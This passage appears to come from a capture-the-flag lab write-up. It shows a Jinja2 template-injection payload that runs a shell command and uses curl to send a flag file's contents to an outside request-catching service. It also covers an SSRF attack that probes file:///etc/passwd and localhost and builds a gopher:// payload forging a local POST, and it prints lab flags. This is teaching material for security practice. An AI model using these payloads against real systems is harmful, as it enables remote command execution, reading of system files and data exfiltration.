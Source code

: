 #### Need Tool way - [Beeceptor](https://beeceptor.com/)
`Beeceptor` will catch our result from `curl`. 
<font color="FF0000">It'll execute `cat /th1s_15_fl4ggggggg` first and the result will be sent to `Beeceptor` as attached data by `curl`.</font>
Payload: 
{% raw %}
```!
{{[].__class__.__base__.__subclasses__()[132].__init__.__globals__['system']('curl {Beeceptor URL} -d "`cat /th1s_15_fl4ggggggg`"')}}
```
{% endraw %}
![](https://i.imgur.com/PQ39MMI.png)
## Lab-Preview Card
Flag: `FLAG{gopher://http_post}`
### 解題流程與思路
When you see a preview function, then it may have SSRF problem.
1. Test it
`file:///etc/passwd` or `http://127.0.0.1`
![](https://i.imgur.com/NKbIlDT.png)

2. Analyze `flag.php`
   ![](https://i.imgur.com/OGo7biu.png)
    :::spoiler source code
    ```php=
    <?php
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') die("Only for localhost user.");
    ?>
    <form action="/flag.php" method="post">
        Do you want the FLAG? <input type="text" name="givemeflag" value="no">
        <input type="submit">
    </form>
    <?php
    if (isset($_POST['givemeflag']) && $_POST['givemeflag'] === 'yes')
        echo "FLAG:", getenv('FLAG');
    ```
    :::
    If you want flag, you need visit `/flag.php` as localhost and send a form data with parameter `givemeflag`.
3. Construct package - <font color="FF0000">**gopher**</font>
    ```!
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1
    Content-Length: 14
    Content-Type: application/x-www-form-urlencoded
    
    givemeflag=yes
    ```
    Transferred by [urlencode](https://www.urlencoder.org/) with `CRLF` type.
    Payload: `gopher://127.0.0.1:80/_POST%20%2Fflag.php%20HTTP%2F1.1%0d%0aHost%3A%20127.0.0.1%0d%0aContent-Length%3A%2014%0d%0aContent-Type%3A%20application%2Fx-www-form-urlencoded%0d%0a%0d%0agivemeflag%3Dyes%0d%0a`
